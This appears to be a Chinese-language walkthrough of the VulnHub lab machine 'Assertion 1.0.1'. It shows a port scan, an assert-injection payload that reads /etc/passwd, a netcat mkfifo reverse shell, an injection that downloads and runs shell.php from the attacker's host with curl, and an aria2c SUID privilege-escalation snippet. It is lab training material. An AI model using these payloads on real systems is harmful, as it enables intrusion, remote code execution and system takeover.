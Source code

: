 # Assertion101

> https://download.vulnhub.com/assertion/Assertion-1.0.1.rar

靶场IP：`192.168.2.138`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.138                                                                                                                                                                                                  
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-12 09:50 EDT
Nmap scan report for 192.168.2.138
Host is up (0.0011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:79:7E:97 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.73 seconds

```

访问80端口

![image-20220912215514037](../../.gitbook/assets/image-20220912215514037.png)

文件包含漏洞

```
' and die(show_source('/etc/passwd')) or '
```

![image-20220912215945206](../../.gitbook/assets/image-20220912215945206.png)

新建反弹shell

```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.129 1234 >/tmp/f');
?>
```

```
' and die(system("curl http://192.168.2.129/shell.php|php")) or '
```



aria2c的suid

```
sudo install -m =xs $(which aria2c) .

COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
./aria2c --on-download-error=$TF http://x
```

